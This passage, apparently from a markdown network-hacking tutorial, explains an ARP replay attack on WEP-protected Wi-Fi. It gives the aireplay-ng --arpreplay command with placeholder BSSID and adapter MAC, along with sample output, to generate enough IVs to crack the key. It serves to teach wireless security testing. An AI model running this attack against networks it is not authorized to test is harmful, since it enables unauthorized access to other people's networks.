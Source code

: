 - Once, this packet is sent to the network, we are going to capture it, and retransmit it. Once, we do this, the router is forced to generate a new packet with new IV.

- By repeating this process, we will be forcing the router to contnuously generate new packets with new IVs. Than once we have enough packets, we can crack the WEP key.

- We can do this attack using the command:

    ```bash
    root@kali:~# aireplay-ng --arpreplay -b <BSSID> -h <MAC_ADDRESS_OF_HACKERS_ADAPTER> wlan0
    ```

    The output will look like this:

    ```
    [TIME] Waiting for beacon frame (BSSID: <BSSID>) on chanbel <channel>
    Saving ARP requests in file: something.cap
    You should also start airodump-ng to capture replies.
    Read XXXXXX packets (got XXXXX ARP requests and XXX ACKs), sent XXXX Packers...(XXX pps)
    ```

    Actual output looks like this:

    ```bash
    root@kali:~# aireplay-ng --arpreplay -b WIFI_MAC -h WIRELESS_ADAPTER_MAC  wlan0
    06:07:29  Waiting for beacon frame (BSSID: WIFI_MAC) on channel 36
    Saving ARP requests in replay_arp-0727-060729.cap
    You should also start airodump-ng to capture replies.
    Read 0 packets (got 0 ARP requests and 0 ACKs), sen
    Read 2 packets (got 0 ARP requests and 0 ACKs), sen
    Read 23 packets (got 0 ARP requests and 0 ACKs), se
    Read 33 packets (got 0 ARP requests and 2 ACKs), se
    Read 37 packets (got 0 ARP requests and 2 ACKs), se
    Read 48 packets (got 0 ARP requests and 2 ACKs), se
    Read 49 packets (got 0 ARP requests and 2 ACKs), se
    Read 55 packets (got 0 ARP requests and 2 ACKs), se
    ```

- `-b` is the BSSID of the target network, and `-h` is the MAC address of the hacker's adapter.

---

### Path

<- [Previous Lesson: Network Hacking - Pre Connection Attacks](/lesson-02.md)  |  [Next Lesson: Network Hacking - Gaining Access - WPA/WPA2 Cracking](/lesson-04.md) ->